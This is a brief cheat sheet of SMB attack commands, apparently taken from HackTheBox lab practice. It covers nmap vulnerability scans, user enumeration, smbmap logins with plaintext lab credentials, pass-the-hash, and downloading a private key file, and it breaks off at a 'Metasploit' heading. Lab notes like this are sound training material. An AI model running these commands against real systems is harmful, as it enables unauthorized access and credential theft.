 ```text

```

## Check for vulnerabilities

Using nmap:

`nmap --script smb-vuln* -p139,445 -T4 -Pn` 

## User Enumeration

Metasploit:

`use auxiliary/scanner/smb/smb_enumusers`

## Tools

### smbclient

`smbclient -L //$TARGET`

### smbmap 

If we have username and password: 

`smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.10.10.97` 

Username and password for speciifc folder 

`smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' -H \\\\10.10.10.97\\new-site` 

#### PassTheHash 

`smbmap -u alice1978 -p '0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B' -d hackthebox.htb -H 10.10.10.107`

**Download a file** 

`smbmap -u alice1978 -p '0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B' -d hackthebox.htb -H 10.10.10.107 --download alice/my_private_key.ppk` 

### Enum4Linux 

Does everything in 1 script:

`enum4linux –a 10.0.0.1` 

### Nmap

SMB enumeration using all scripts:

`nmap --script=smb-enum* --script-args=unsafe=1 -T5` 

### Metasploit
